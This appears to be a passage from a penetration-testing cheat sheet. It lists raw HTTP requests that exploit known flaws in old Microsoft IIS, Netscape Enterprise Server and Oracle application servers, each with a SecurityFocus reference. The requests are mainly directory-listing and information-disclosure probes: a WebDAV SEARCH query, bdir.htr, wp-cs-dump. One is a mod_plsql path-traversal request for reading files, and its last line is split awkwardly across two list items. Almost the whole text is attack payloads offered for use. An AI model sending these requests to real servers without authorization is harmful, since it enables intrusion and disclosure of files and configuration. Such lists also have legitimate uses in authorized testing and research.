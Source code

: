 - http://www.securityfocus.com/bid/2513

1. GET /%00/ HTTP/1.0
1. GET /%2e/ HTTP/1.0
1. GET /%2f/ HTTP/1.0
1. GET /%5c/ HTTP/1.0

__Microsoft IIS 5.0 WebDAV__

- http://www.securityfocus.com/bid/1756

```
SEARCH / HTTP/1.1
Host: <hostname or ip address>
Content-Type: text/xml
Content-Length: 133
<?xml version="1.0"?>
<g:searchrequest xmlns:g="DAV:">
<g:sql>
Select "DAV:displayname" from scope()
</g:sql>
</g:searchrequest>
```

__Microsoft IIS 3.0/4.0 BDIR.HTR__

1. GET /scripts/iisadmin/bdir.htr??c:\HTTP/1.0
  - http://www.securityfocus.com/bid/2280

__Netscape Enterprise Server INDEX__

1. INDEX / HTTP/1.0
  - http://www.securityfocus.com/bid/2285

__Netscape Enterprise Server /?wp-cs-dump__

- http://www.securityfocus.com/bid/1063

1. GET /?wp-cs-dump HTTP/1.0
1. GET /?wp-ver-info HTTP/1.0
1. GET /?wp-html-rend HTTP/1.0

__Oracle Internet Application Server /WebDB/admin_/__

1. GET /WebDB/admin_/ HTTP/1.0
 - http://www.securityfocus.com/bid/2171

__Oracle 9i Application Server mod_plsql__

- http://www.securityfocus.com/bid/3727

1. GET /pls/sample/admin_/help/..%255
1. c<relative path to file> HTTP/1.0
